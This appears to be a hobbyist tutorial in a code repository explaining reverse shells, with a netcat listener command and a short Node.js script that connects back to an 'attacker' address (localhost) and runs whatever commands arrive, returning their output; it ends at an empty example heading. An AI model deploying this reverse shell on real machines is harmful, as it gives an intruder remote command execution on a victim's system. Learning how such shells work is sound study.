


# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :

_"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not work. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)


# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 


First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.




### Ok good, we have a connection. Now what?
Now we implement the code that will make our TARGET do something when it receives the commands.

I used: `lient.on("data", FUNCTION )`

What this function does is specifying what the client will do when it will receive data. The passed data is defined as `"data"`and the `FUNCTION` is the action the TARGET will do.


```

client.on("data", (data)=>{  

  
    let cmd = (data.toString().trimEnd()); 

    let args = cmd .split(" "); 
    
    let exec = child_process.spawn(args[0],args.slice(1)); //args.slice(1) elimina il primo elemento del vettore

    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })


})
```

#### Let's break it down.

`let cmd = (data.toString().trimEnd()); `

Here i define `cmd` as the command that is passed. the method `toString()` is used to convert the bufferized hex that arrives into a string of character.

The method `trimEnd()` cuts the last character since it is a CR LF char and could mess up with the command we want to send.


`let args = cmd .split(" ");` here i define `args` as an array of all the commands + flags that are sent. The divisor is the space.

`let exec = child_process.spawn(args[0],args.slice(1));` This is the heart of our code. This method makes the command executable on the TARGET machine.


>child_process.spawn(command[, args][, options]).
As [**node.js** documentation states:](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) 
>The child_process.spawn() method spawns a new process using the given command, with command-line arguments in args. If omitted, args defaults to an empty array.

In our code, `args[0]` is the command we want to execute, from `args[1]` there are just flags. `args.slice[1]` takes the `args[]` vector from the 1st element, not the 0th.


To conclude, we make the client  output the result of our command. Alway using ".on"

```
    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })
    
````

## An example




